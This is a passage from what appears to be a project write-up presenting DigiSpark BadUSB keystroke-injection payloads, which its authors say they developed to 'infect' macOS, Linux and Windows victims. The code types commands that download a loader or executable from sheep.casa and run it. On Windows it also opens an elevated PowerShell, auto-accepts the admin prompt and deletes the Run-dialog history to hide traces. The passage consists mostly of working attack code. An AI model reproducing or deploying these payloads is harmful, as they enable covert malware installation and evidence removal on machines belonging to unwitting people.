 ```c
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("disown $!");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_Q, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
}

void loop() {

}
```

As you can see above, is very similar to what we've used to exploit Linux machines. The major difference is the way the terminal is opened. We've had to modify our OSX version to use `DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);`, which will open Spotlight search. The code will delay for .5 seconds, and search "terminal", delay for .5 seconds, and press enter, opening the terminal.

After this, in order to ensure we aren't using Z Shell, we'll enter `bash`. From this point on the rest of the code is exactly the same as our Linux payload. It too downloads `linux_loader`, which downloads and runs `linux_payload.py`.  


### Windows
Below is the DigiSpark payload we developed to infect Windows victims.
```c
#include "DigiKeyboard.h"

void setup()
{
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("powershell Start-Process powershell -Verb runAs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("$down = New-Object System.Net.WebClient; $url = 'https://sheep.casa/payloads/windows_payload.exe'; $file = 'windows_payload.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  // Clear run command history
  DigiKeyboard.println("reg delete HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU /va /f");
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  digitalWrite(1, HIGH);
}

void loop() {}
```
The above code opens powershell to download and execute our `windows_payload.exe`.
